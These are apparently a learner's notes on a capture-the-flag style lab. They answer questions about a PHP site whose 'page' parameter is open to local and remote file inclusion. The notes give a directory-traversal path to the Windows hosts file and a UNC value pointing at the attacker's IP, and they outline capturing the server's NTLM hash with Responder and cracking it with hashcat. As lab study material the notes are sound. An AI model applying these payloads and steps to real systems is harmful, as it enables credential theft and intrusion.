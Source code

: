 *add the SSL to the hosts for curont IP*
![[Pasted image 20230421122517.png]]

2. Which scripting language is being used on the server to generate webpages?

```
php
```

3. What is the name of the URL parameter which is used to load different language versions of the webpage? 

```
page
```

![[Pasted image 20230421122625.png]]

4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

![[Pasted image 20230421122709.png]]

5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 

```
//10.10.14.6/somefile
```

*Run Responder Tool on interface tun0:*
![[Pasted image 20230421122930.png]]

*IP on tun0 = 10.10.14.99 (винаги трябва да се даде ip на интерфейса който използваме*
![[Pasted image 20230421123311.png]]

*Add to parametar page=//<ip_on_tun0>/filename*
![[Pasted image 20230421123028.png]]

*Responder capture the hash by reloading the page*
![[Pasted image 20230421123440.png]]

*create a file with the hash*
![[Pasted image 20230421123642.png]]

*brute-force the hash with tool hashcat (-m =mode on the hash)*
https://hashcat.net/wiki/doku.php?id=example_hashes#generic_hash_types (for all mode)
![[Pasted image 20230421123800.png]]
